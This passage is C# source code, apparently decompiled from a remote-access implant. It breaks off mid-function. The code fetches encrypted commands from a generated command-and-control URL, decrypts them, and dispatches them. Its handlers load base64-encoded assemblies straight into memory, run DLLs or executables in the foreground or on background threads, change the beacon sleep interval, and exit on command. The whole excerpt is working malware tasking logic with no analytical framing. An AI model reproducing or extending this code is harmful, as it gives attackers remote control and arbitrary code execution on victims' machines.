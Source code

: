```cs
			try
			{
				string text = "";
				string cmd = null;
				try
				{
					cmd = Program.GetWebRequest(null).DownloadString(Program.UrlGen.GenerateUrl());
					text = Program.Decryption(Key, cmd).Replace("\0", string.Empty);
				}
				catch
				{
					continue;
				}
				if (text.ToLower().StartsWith("multicmd"))
				{
					string text2 = text.Replace("multicmd", "");
					string[] array = text2.Split(new string[] { "!d-3dion@LD!-d" }, StringSplitOptions.RemoveEmptyEntries);
					foreach (string text3 in array)
					{
						Program.taskId = text3.Substring(0, 5);
						cmd = text3.Substring(5, text3.Length - 5);
						if (cmd.ToLower().StartsWith("exit"))
						{
							Program.Run = false;
							manualResetEvent.Set();
							break;
						}
						if (cmd.ToLower().StartsWith("loadmodule"))
						{
							string text4 = Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase);
							Assembly assembly = Assembly.Load(Convert.FromBase64String(text4));
							Program.Exec(stringBuilder.ToString(), Program.taskId, Key, null);
						}
						else if (cmd.ToLower().StartsWith("run-dll-background") || cmd.ToLower().StartsWith("run-exe-background"))
						{
							Thread thread = new Thread(delegate()
							{
								Program.rAsm(cmd);
							});
							Program.Exec("[+] Running background task", Program.taskId, Key, null);
							thread.Start();
						}
						else if (cmd.ToLower().StartsWith("run-dll") || cmd.ToLower().StartsWith("run-exe"))
						{
							stringBuilder.AppendLine(Program.rAsm(cmd));
						}
						else if (cmd.ToLower().StartsWith("beacon"))
						{
							Regex regex2 = new Regex("(?<=(beacon)\\s{1,})(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
							Match match2 = regex2.Match(text3);
							if (match2.Success)
							{
								num = Program.Parse_Beacon_Time(match2.Groups["t"].Value, match2.Groups["u"].Value);
							}
							else
							{
```
